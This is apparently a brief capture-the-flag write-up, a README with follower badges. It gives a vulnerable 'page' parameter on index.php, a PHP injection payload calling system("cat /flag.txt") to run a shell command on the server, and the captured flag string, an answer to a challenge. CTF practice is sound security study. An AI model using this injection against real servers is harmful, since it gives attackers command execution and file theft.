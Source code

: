 <p align="center">
    <img alt="Follow" src="https://img.shields.io/github/followers/EffectRenan?style=social">
    <img alt="Tweet" src="https://img.shields.io/twitter/follow/EffectRenan?label=Follow&style=social">
</p>

**Challenge**: ...

index.php?page=<payload>

Payload: `+system("cat /flag.txt")+`

**Flag**: flag{85a25711fa6e111ed54b86468a45b90c}
